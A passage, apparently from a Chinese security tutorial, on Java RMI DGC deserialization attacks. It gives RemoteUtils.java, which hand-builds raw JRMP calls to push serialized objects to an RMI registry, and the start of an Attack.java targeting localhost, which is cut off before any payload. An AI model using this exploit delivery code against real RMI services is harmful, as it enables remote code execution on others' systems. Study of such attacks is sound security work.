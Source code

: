 
所以说不论是客户端还是服务端，都受到 DGC 反序列化的影响。这里参考 yxxx 师傅的代码，直接通过 JAVA Socket 向服务端(注册中心)发包进行反序列化。

RemoteUtils.java
```java
import sun.rmi.server.MarshalOutputStream;
import sun.rmi.transport.TransportConstants;

import javax.net.SocketFactory;
import java.io.DataOutputStream;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.rmi.server.ObjID;

public class RemoteUtils {
    public static void sendRawCall(String host, int port, ObjID objid, int opNum, Long hash, Object ...objects) throws Exception {
        Socket socket = SocketFactory.getDefault().createSocket(host, port);
        socket.setKeepAlive(true);
        socket.setTcpNoDelay(true);
        DataOutputStream dos = null;
        try {
            OutputStream os = socket.getOutputStream();
            dos = new DataOutputStream(os);

            dos.writeInt(TransportConstants.Magic);
            dos.writeShort(TransportConstants.Version);
            dos.writeByte(TransportConstants.SingleOpProtocol);
            dos.write(TransportConstants.Call);

            final ObjectOutputStream objOut = new MarshalOutputStream(dos);

            objid.write(objOut); //Objid
            objOut.writeInt(opNum); // opnum
            objOut.writeLong(hash); // hash

            for (Object object:
                    objects) {
                objOut.writeObject(object);
            }

            os.flush();
        } finally {
            if (dos != null) {
                dos.close();
            }
            if (socket != null) {
                socket.close();
            }
        }
    }

    public static void main(String[] args) {

    }
}
```
Attack.java
```java
import java.rmi.server.ObjID;

public class Attack {
    public static void AttackByDGC() throws Exception {
        String registryHost = "127.0.0.1";
```
